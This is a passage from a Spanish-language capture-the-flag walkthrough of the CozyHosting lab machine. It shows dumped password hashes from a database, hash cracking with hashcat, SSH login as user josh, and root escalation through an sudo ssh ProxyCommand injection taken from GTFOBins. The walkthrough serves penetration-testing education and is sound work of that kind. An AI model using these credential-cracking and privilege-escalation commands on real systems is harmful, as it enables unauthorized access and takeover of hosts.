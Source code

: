 ~~~bash
cozyhosting=# select * from users;
Schema | Name  
--------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 admin | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
~~~
Con ello se podrian ver las credenciales de dos usuarios, de estos el que mas me importa es el de admin asi que lo intentare descifrar con hashcat.
Por suerte se pudo obtener una contraseña.
~~~
hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:ma<SNIP>ed

~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Ahora si, intentando probar dicha contraseña con ssh, por fin se tiene acceso y se puede leer la user flag.
~~~bash
ssh josh@10.10.11.230
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct 19 09:13:36 PM UTC 2025

<SNIP>

josh@cozyhosting:~$ cat user.txt 
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
La escalada de privilegios es bastante sencilla, solo se enumero los permisos que se tienen con sudo.
~~~bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
~~~
Con esto ya es bastante simple, se busca en GTFOBins y un copy + paste
~~~bash
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
~~~